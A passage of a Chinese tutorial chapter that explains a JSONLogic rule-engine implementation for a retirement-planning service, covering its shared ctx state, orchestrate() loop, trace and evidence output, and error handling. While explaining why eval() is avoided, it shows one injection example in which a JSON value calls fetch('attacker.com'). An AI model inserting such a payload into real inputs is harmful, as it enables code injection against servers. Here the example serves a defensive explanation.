






# 第 15 节 · JSONLogic 引擎实现：从 ctx 到证据链



> **预计时长**：阅读 35 分钟 / 实战 60 分钟
> **前置知识**：第 14 节《规则引擎 DSL：把 24 条政策变成可执行 JSON》、对 JSONLogic 有基础了解
> **本节代码**：`ssp-web` 仓库 `chapter-15` tag · 主要文件 `src/lib/engine/orchestrator.ts`、`src/lib/engine/executor.ts`、`src/types/engine.ts`、`src/lib/engine/json-logic.ts`

我们做用户回访那天，一个 50 岁的阿姨问了一个让所有人愣住的问题：

> "你们这 AI 算我 2027 年 10 月退休——那这个数字是怎么来的？我邻居用别的工具算出来是 2027 年 4 月，差了 6 个月。"

工程师当场掏出手机给她翻 trace：

- R-010 把"73年"解析成 1973
- R-012 性别归一化为 female
- R-020 因为缺 female_retire_type，停下来追问了"普通工人还是管理岗"
- R-110 在拿到 worker50 之后，查 T-RETIREMENT-AGE-LOOKUP 表，得到法定退休年龄 50 岁
- R-115 应用渐进延迟，2025 年 1 月之后退休的人要延迟 X 个月
- R-120 拿 1973-10-01 + 50 岁 + X 月，算出 2027 年 10 月

阿姨看完点头：**"原来你们是一步一步算的。我邻居那个工具大概率算的没考虑渐进延迟。"**

这就是 SSP 把"规则引擎"放在最关键位置的原因——**同样的输入，规则引擎跑 24 条规则，最后给一个数字。这个数字必须能追溯到具体的政策条文、参数表、计算函数**。

这一节我们把引擎本身打开，从入口的 `orchestrate()` 看到出口的 trace[] + evidence[]。读完你不仅知道引擎怎么跑，还能在出 bug 时定位到具体哪条规则的哪一行。

---

## 一、知识铺垫：JSONLogic + ctx 数据结构

### 1.1 为什么是 JSONLogic（json-logic-js@^2.0.5）

第 14 节讲过决策表的 `when` 字段是这样的：

```json
{
  "and": [
    { "==": [{ "var": "user.basic.birth_year" }, null] },
    { "!=": [{ "var": "user.basic.birth_year_text" }, null] }
  ]
}
```

这就是 JSONLogic 表达式。等价的 JavaScript 是：

```typescript
ctx.user.basic.birth_year === null && ctx.user.basic.birth_year_text !== null
```

为什么不直接 `eval()`？三个理由：

#### 理由 1：安全（封闭操作符集）

`eval()` 可以执行任意 JavaScript 代码——`{ "type": "set", "value": "fetch('attacker.com').then(...)" }` 一旦走到 eval，整个服务器就完了。

JSONLogic 的所有"操作符"都是合法的 JSON 键：`and / or / if / == / != / var / >= / <=` 等等。**所有不在白名单里的字符串都不是操作符，引擎会原样当成字面量返回**。攻击者再聪明也注入不了代码。

#### 理由 2：可序列化（JSON 原生）

`eval()` 接受字符串。字符串没法可视化编辑、没法做静态分析、没法 diff。

JSONLogic 是 JSON 树。可以在管理后台用拖拽 UI 编辑（"加一行 when 条件"等于在 JSON 树里加一个节点），可以做语法高亮，可以 diff 两个版本看变化。

#### 理由 3：跨语言可移植

JSONLogic 有 JavaScript / Python / PHP / Ruby / .NET / Go / Rust 等 10+ 种语言的实现，且语义一致。这意味着：

- TypeScript 写的 admin 后台用 `json-logic-js` 跑预览
- Python 写的离线批处理脚本用 `json-logic-py` 跑回归
- 同一份 JSON 规则在两边跑出完全一致的结果

`eval()` 没有这种待遇——你换个语言就得重写规则。

#### SSP 的具体版本

`package.json` 里的依赖（来自 `code-facts.md` §2）：

```json
"json-logic-js": "^2.0.5"
```

JSONLogic 库本体只有 8KB，零外部依赖。SSP 在它之上加了三个自定义算子（`src/lib/engine/json-logic.ts:1-43`）：

```typescript
// src/lib/engine/json-logic.ts
import jsonLogic from "json-logic-js";

jsonLogic.add_operation("intersects", (a, b) =>
  Array.isArray(a) && Array.isArray(b) && a.some(x => b.includes(x))
);
jsonLogic.add_operation("ceil", (x) =>
  Math.ceil(typeof x === "number" ? x : x[0])
);
jsonLogic.add_operation("floor", (x) =>
  Math.floor(typeof x === "number" ? x : x[0])
);

export function evaluateJsonLogic(logic: unknown, data: unknown): any {
  if (logic === null || logic === undefined) return logic;
  if (typeof logic !== "object") return logic;
  // Empty object {} is always-true (catch-all pattern)
  if (Object.keys(logic as object).length === 0) return true;
  return jsonLogic.apply(logic as any, data as any);
}
```

> **看这里 →**：`{}` 空对象被当成"永远为真"——这是 SSP 的兜底行（catch-all）写法。`R-900-FINAL-GATE` 的最后一行 `"when": {}` 就是靠这个。



### 1.2 ctx：贯穿整条流水线的共享状态

24 条规则要协作，靠的就是一个共享对象 `ctx`。它的类型定义在 `src/types/engine.ts:3-8`：

```typescript
// src/types/engine.ts:3-8
export interface RuleContext {
  user: Record<string, unknown>;     // 用户输入
  params: Record<string, unknown>;   // 政策参数（按 as_of_date 加载）
  calc: Record<string, unknown>;     // 中间计算
  plan?: Record<string, unknown>;    // 最终规划输出
}
```

四个分区，职责分明：

| 字段 | 谁写入 | 谁读取 | 类比 |
|---|---|---|---|
| `user` | 调用方传入（一开始就有）| 所有规则 | "原料" |
| `params` | 引擎从 `policy_pack` 加载 | 所有规则的 lookup action | "工艺参数表" |
| `calc` | 规则用 `set` action 写入 | 后续规则 | "中间产物（半成品）" |
| `plan` | R-700-PLAN-TEMPLATE 装配 | 工具层最终读取 | "成品" |

把它想象成一条流水线：

```
[ user ]  →  R-010 把"73年"解析成 1973，写到 user.basic.birth_year
[ user ]  →  R-110 读 user.basic.gender + user.basic.birth_year
              查 params.T-RETIREMENT-AGE-LOOKUP 表
              把结果写到 calc.retirement.legal_retire_age_years
[ calc ]  →  R-200 读 calc.retirement.legal_retire_age_years
              算最低缴费年限差距，写到 calc.pension.gap_months
[ calc ]  →  R-700 读所有 calc.*，装配出最终的 plan
```

每条规则**只读自己需要的字段，只写自己负责的字段**——规则之间不直接通信，全靠 ctx 传递。这种"共享状态 + 局部读写"是流水线模式的精髓。

> **划重点**：ctx 的设计哲学是"**约定优于通信**"。规则不需要知道谁在它前面、谁在它后面，只需要知道"我读这几个字段、我写这几个字段"，剩下交给 rule_set 编排。



---

## 二、核心讲解

### 2.1 ctx 的实际结构（运行时全貌）

理论上 `ctx` 是 `RuleContext` 那 4 个字段，但运行时它的实际样子要丰富得多。看 `src/lib/engine/orchestrator.ts:62-68`：

```typescript
// src/lib/engine/orchestrator.ts:62-68
const ctx: any = {
  user: structuredClone(input.user),
  params: flatParams,
  calc: {},
  plan: {},
};
```

`structuredClone(input.user)` 是关键——**深拷贝输入**。这意味着规则即使修改 `ctx.user`（比如 R-010 把字符串解析成数字），也不会污染调用方的原始数据。

`flatParams` 是从 `policy_pack` 扁平化出来的所有政策参数。比如 `policy_params_shanghai_base.json` 里有 26 个 scalar param + 3 个 table param，扁平化后 `ctx.params` 长这样：

```typescript
ctx.params = {
  "P-SH-CONTRIB-BASE-LOWER": 7460,
  "P-SH-CONTRIB-BASE-UPPER": 37302,
  "P-SH-PENSION-RATE-EMPLOYER": 0.16,
  "P-SH-PENSION-RATE-EMPLOYEE": 0.08,
  "P-SH-PENSION-RATE-FLEX": 0.20,
  "P-SH-MEDICAL-RATE-EMPLOYER": 0.09,
  // ... 还有 20 个 scalar（共 26 个）
  "T-RETIREMENT-AGE-LOOKUP": [
    { "gender": "male", "birth_year_min": 1965, "birth_year_max": 1965, "age_years": 60, "delay_months": 1 },
    { "gender": "male", "birth_year_min": 1966, "birth_year_max": 1966, "age_years": 60, "delay_months": 2 },
    // ... 几十行表数据
  ],
  "T-MIN-PENSION-YEARS-BY-RETIRE-YEAR": [...],
  "T-SH-UNEMPLOYMENT-DURATION-BY-YEARS": [...]
};
```

> **小提醒**：scalar params（如 `P-SH-PENSION-RATE-FLEX`）以前缀 `P-` 标识，table params 以前缀 `T-` 标识。这是 SSP 的命名习惯——读到 `T-` 开头就知道这是表，要走 lookup action 而非直接 var 引用。

### 2.2 orchestrate() 函数：引擎的入口

`orchestrate()` 是规则引擎的总入口，签名在 `src/lib/engine/orchestrator.ts:41-134`。整个流程拆成 5 步：

```typescript
// src/lib/engine/orchestrator.ts:41-134（精简）
export async function orchestrate(input: OrchestratorInput): Promise<OrchestratorResult> {
  // Step 1: 解析参数（ruleSetId / policyPackId / asOfDate 均有默认值）...

  // Step 2: 并行加载规则 + 参数（一次往返查齐所有数据）
  const [{ ruleSet, rules: effectiveRules }, effectiveParams] = await Promise.all([
    getEffectiveRules(ruleSetId, asOfDate),
    getEffectiveParams(policyPackId, asOfDate),
  ]);

  // Step 3: 初始化 ctx（深拷贝 user，挂上 flatParams）...

  // Step 4: 按 rule_set 数组顺序串行执行 24 条规则
  const orderedRuleIds = (ruleSet?.rules as string[]) ?? [];
  const allTrace: TraceEntry[] = [];
  for (const ruleId of orderedRuleIds) {
    const dbRule = ruleMap.get(ruleId);
    if (!dbRule) continue;
    const ruleDef: RuleDefinition = { /* DB row → DSL */ };
    const result = executeRule(ruleDef, ctx);
    allTrace.push(...result.trace);
    if (ruleId === "R-120-COMPUTE-RETIRE-DATE") {
      autoComputeMonthsToRetire(ctx, asOfDate);
    }
  }

  // Step 5: 返回 { plan, calc, user, trace: allTrace, meta, effectiveRules, flatParams } ...
}
```

> **看这里 →**：`Promise.all` 让规则加载和参数加载并行——一次数据库查询往返就拿齐了所有数据，而不是循环里查 24 次。这对 serverless 场景（每次冷启动都要建 DB 连接）尤其关键。

#### 几个关键设计

**1. 默认值兜底**：`ruleSetId` / `policyPackId` / `asOfDate` 都有默认值。这意味着调用方什么都不传也能跑——`orchestrate({ user })` 就能用默认参数算出今日的上海方案。

**2. 双下划线兼容**：`input.rule_set_id ?? input.ruleSetId` 这种写法支持 snake_case 和 camelCase 两种入参风格。这是因为 JSON DSL 里写 `rule_set_id`（snake_case），TypeScript 代码用 `ruleSetId`（camelCase），两边都能调。

**3. 特殊钩子**：`R-120` 执行完后调用 `autoComputeMonthsToRetire(ctx, asOfDate)`，把"距离退休还有多少个月"算出来。这是引擎内置的"时间机器"——根据 `asOfDate` 而不是 `Date.now()` 计算，保证可复现性。

#### 引擎 8 大模块清单

`src/lib/engine/` 下面一共 8 个文件（详见 `code-facts.md` §5.1）：

| 文件 | 行数 | 关键导出 | 干什么的 |
|---|---:|---|---|
| `orchestrator.ts` | 239 | `orchestrate`, `orchestrateInMemory`, `executeSingleRuleInMemory` | **入口**：从 DB 加载规则 + 参数，按顺序执行 |
| `executor.ts` | 80 | `executeRule` | 单条规则的决策表执行（hit_policy first/all） |
| `actions.ts` | 338 | `executeAction`, `getDeep`, `setDeep` | 6 种 action 处理（set/lookup/call/emit_*） |
| `json-logic.ts` | 103 | `evaluateJsonLogic`, `isJsonLogicExpression` | JSONLogic 求值 + 自定义算子 intersects/ceil/floor |
| `builtins.ts` | 230 | `getBuiltinFunction`, `listBuiltinFunctions` | 内置函数（parse_birth_year / make_date / date_diff_months / compute_delayed_retire_age 等） |
| `scenario-builder.ts` | 302 | `buildScenarios`, `Scenario`, `ScenarioPhase` | 多场景对比（早退 vs 晚退） |
| `subsidy-advisor.ts` | 200 | `adviseSubsidies`, `SubsidyRecommendation` | 4050 / 大龄岗补 / 失业金 / 老失业过渡 |
| `test-runner.ts` | 283 | `runTestCase`, `TestCase`, `TestResult`, `DiffEntry` | 单元测试运行（含 params 三层合并） |

> **划重点**：8 个文件、大约 1500 行 TypeScript——撑起了整套"政策计算引擎"。**这就是"代码做解释"的力量：再多的政策规则，引擎代码不会膨胀**。



### 2.3 一条规则跑一遍：R-010 完整 trace

理论说了一圈，看一个真实 trace。假设用户输入：

```typescript
const input = {
  user: {
    basic: {
      birth_year_text: "73年",
      gender_text: "女"
    }
  }
};
```

调用 `orchestrate({ user: input.user })`，引擎从 R-010 开始跑。

#### R-010-PARSE-BIRTH-YEAR 的执行轨迹

R-010 的 decision_table 是这样的（完整 JSON 见 `code-facts.md` §5.6）：

```json
{
  "rule_id": "R-010-PARSE-BIRTH-YEAR",
  "decision_table": {
    "hit_policy": "first",
    "rows": [
      {
        "row_id": "row_2_parse_text",
        "when": {
          "and": [
            { "==": [{ "var": "user.basic.birth_year" }, null] },
            { "!=": [{ "var": "user.basic.birth_year_text" }, null] }
          ]
        },
        "then": {
          "actions": [
            {
              "type": "call",
              "fn": "parse_birth_year",
              "args": { "text": { "var": "user.basic.birth_year_text" } },
              "into": "user.basic.birth_year"
            }
          ]
        }
      }
    ]
  }
}
```

执行步骤：

**Step 1: `executeRule(ruleDef, ctx)` 被调用**

`src/lib/engine/executor.ts:1-80` 的精简版：

```typescript
export function executeRule(rule: RuleDefinition, ctx: any) {
  const { decision_table } = rule;
  const traceEntries: TraceEntry[] = [];

  for (const row of decision_table.rows) {
    const matched = evaluateJsonLogic(row.when, ctx);

    if (matched) {
      for (const action of row.then.actions) {
        executeAction(action, ctx);
      }
      traceEntries.push({
        rule_id: rule.rule_id,
        row_id: row.row_id,
        matched: true,
        actions_executed: row.then.actions,
        timestamp: Date.now(),
      });
      if (decision_table.hit_policy === "first") break;
    }
  }
  return { ctx, trace: traceEntries };
}
```

**Step 2: 评估 row_2_parse_text 的 when 条件**

```typescript
evaluateJsonLogic(
  {
    "and": [
      { "==": [{ "var": "user.basic.birth_year" }, null] },
      { "!=": [{ "var": "user.basic.birth_year_text" }, null] }
    ]
  },
  ctx
);
```

`{ "var": "user.basic.birth_year" }` 取出 `ctx.user.basic.birth_year`——这个字段没有，返回 `undefined`。`{"==": [undefined, null]}` 在 JSONLogic 里按 truthy 比较，结果为 `true`。

`{ "var": "user.basic.birth_year_text" }` 取出 `"73年"`。`{"!=": ["73年", null]}` → `true`。

`{"and": [true, true]}` → **true**。row_2_parse_text 匹配。

**Step 3: 执行 then.actions[0]**

`actions.ts` 处理 `call` 类型 action：

```typescript
// 简化逻辑
case "call": {
  const fn = getBuiltinFunction(action.fn);  // parse_birth_year
  const evaluatedArgs = evaluateJsonLogic(action.args, ctx);
  // → { text: "73年" }
  const result = fn(evaluatedArgs);          // → 1973
  setDeep(ctx, action.into, result);         // ctx.user.basic.birth_year = 1973
  break;
}
```

`parse_birth_year` 是 SSP 的内置函数（`src/lib/engine/builtins.ts:1-230`）。它的逻辑大致是：

`parse_birth_year({ text: "73年" })` → `73 + 1900 = 1973`。

写回 ctx：`ctx.user.basic.birth_year = 1973`。

**Step 4: 写 trace 条目**

```typescript
traceEntries.push({
  rule_id: "R-010-PARSE-BIRTH-YEAR",
  row_id: "row_2_parse_text",
  matched: true,
  actions_executed: [
    {
      type: "call",
      fn: "parse_birth_year",
      args: { text: { var: "user.basic.birth_year_text" } },
      into: "user.basic.birth_year"
    }
  ],
  timestamp: 1714123456789
});
```

**Step 5: hit_policy === "first" → break**

R-010 完成。回到 orchestrate 的循环，进入下一条 R-011-BUILD-BIRTH-DATE。

#### 后续规则的连锁反应

R-011 拿到了 `ctx.user.basic.birth_year=1973`，执行 `make_date(1973, 6, 1)` → `"1973-06-01"`，写回 `ctx.user.basic.birth_date`。

R-012 把 `"女"` 归一化成 `female`。

R-020 检查 `female_retire_type` 缺失 → 触发 `emit_question`，询问"普通工人还是管理岗？"。

R-110 读到 `female_retire_type` 缺失 → 也触发 `emit_question`（这是冗余的，最终 `extractQuestions` 会去重）。

R-200 ~ R-700 大部分跳过，因为依赖字段缺失。

R-900 兜底：`needs_agent = true`，强制返回追问。

> **小提醒**：每条规则只对自己负责的部分追问。`extractQuestions(trace)` 在工具层统一收集所有 `emit_question`，去重后返回给 LLM。



### 2.4 证据链生成：trace[] 与 evidence[]

跑完 24 条规则之后，`allTrace` 数组里大概会有 10-30 个 TraceEntry（取决于多少行被命中）。这就是引擎对外的最重要副产品——**证据链**。

#### TraceEntry 的字段

```typescript
// src/types/engine.ts (示意)
export interface TraceEntry {
  rule_id: string;              // 哪条规则
  row_id: string;               // 命中哪一行
  matched: boolean;             // 是否命中
  actions_executed: Action[];   // 执行了哪些动作
  timestamp: number;            // 什么时候执行的
}
```

每条 trace 记录"规则 + 行 + 动作 + 时间"四件事。

#### 工具层的 needs_agent 推导

回顾第 13 节讲过——`needs_agent` 不直接读某个固定字段，而是从 trace 里推导出来：

```typescript
// src/lib/ai/tools.ts (示意)
function extractNeedsAgent(trace: TraceEntry[]): boolean {
  return trace.some(entry =>
    entry.actions_executed?.some(action =>
      action.type === "emit_question" ||
      (action.type === "set" && action.path?.includes("needs_agent") && action.value === true)
    )
  );
}
```

这个设计很重要：**`needs_agent` 是一个"行为信号"，不是一个固定字段**。它由规则引擎的执行轨迹推导而来，不受 LLM 行为影响。"是否追问"完全由政策逻辑控制。

#### 用户能看到的 evidence

`trace[]` 主要是给开发者调试用的，太工程化。给用户看的是 `evidence[]`——经过翻译的人类可读版本：

```typescript
// 示意
evidence: [
  {
    step: 1,
    description: "解析您输入的「73年」为 1973 年",
    rule: "R-010-PARSE-BIRTH-YEAR",
    confidence: "high"
  },
  {
    step: 2,
    description: "查找 1973 年女性普通工人的法定退休年龄",
    rule: "R-110-LOOKUP-LEGAL-RETIRE-AGE",
    detail: "查 T-RETIREMENT-AGE-LOOKUP 表得到 50 岁",
    confidence: "high"
  },
  {
    step: 3,
    description: "应用 2025 年延迟退休渐进调整",
    rule: "R-115-FLEXIBLE-RETIREMENT",
    detail: "1973 年出生的女性需延迟 X 个月",
    confidence: "high"
  },
  // ...
]
```

`/evidence/[planId]` 页面（详见加餐 1）把 evidence 渲染成时间线，每一步可以展开看更详细的 trace 数据。

> **划重点**：trace[] 是引擎吐出来的原始字节，evidence[] 是给用户看的故事——两者通过 `extractEvidence(trace, locale)` 这样的转换函数衔接。**不要让用户直接看 trace**。



### 2.5 错误处理：规则跑挂了怎么办

引擎里可能挂的地方：

#### Case 1: 规则 JSON 损坏

JSONLogic 表达式语法错误（比如 `{"==": [123]}` 缺第二个参数）。`evaluateJsonLogic` 会抛 `Error`。

SSP 的处理：在 `executeRule` 外层加 try/catch，把异常转成 trace 条目（`matched: false, error: "..."`），然后**继续执行下一条规则**。

```typescript
// 示意
try {
  const matched = evaluateJsonLogic(row.when, ctx);
  // ...
} catch (err) {
  traceEntries.push({
    rule_id: rule.rule_id,
    row_id: row.row_id,
    matched: false,
    error: (err as Error).message,
    timestamp: Date.now()
  });
}
```

#### Case 2: 内置函数挂了

比如 `parse_birth_year` 收到一个完全无法解析的字符串（如 `"我不告诉你"`），返回 `null`。后续规则读到 `null` 应该走"缺失分支"，而不是抛异常。

**关键策略：内置函数永远不抛异常，只返回 null/undefined。** 让规则层处理"输入无效"的边界。

#### Case 3: lookup 没匹配到

lookup action 用 `{ gender: "male", birth_year: 1873 }` 查 T-RETIREMENT-AGE-LOOKUP（1873 显然超表）。返回 `null`。

后续规则读到 `null` → 触发 emit_question，让 Agent 重新跟用户确认。

#### Case 4: orchestrate() 整体挂了

最外层是工具层的 try/catch（详见第 11 节《Tool Calling 协议》）：

```typescript
// src/lib/ai/tools.ts (示意)
async function computePlanExecute(params) {
  try {
    const result = await orchestrate({ user: { ...params } });
    return { success: true, ...result };
  } catch (error) {
    return {
      success: false,
      error: error.message,
      needs_agent: false,
      questions: [],
      plan: {},
      calc: {}
    };
  }
}
```

> **划重点**：错误处理的核心原则是"**降级而不崩溃**"。规则挂了 → 跳过这条规则；函数挂了 → 返回 null；引擎挂了 → 工具层返回结构化错误。**用户绝不应该看到一个 500 白屏**。

### 2.6 性能：24 条规则 + 短路求值

很多人第一次看到"24 条规则串行执行"的反应是——**这能快吗？**

实测数据：单次 `orchestrate()` 调用在 Vercel 边缘节点上 60-200ms。其中数据库往返 30-100ms（取决于冷启动），24 条规则的执行 5-15ms。

为什么这么快？三个原因：

#### 原因 1：JSONLogic 是 O(N) 解析

JSONLogic 的求值是简单的递归下降——遍历 AST 一次，每个节点 O(1) 处理。一条 when 表达式即使有 5-10 个嵌套也是微秒级。24 条规则 × 平均 3 行 decision_table = ~72 次 evaluateJsonLogic 调用，总耗时 < 5ms。

#### 原因 2：短路求值（Short-Circuit Evaluation）

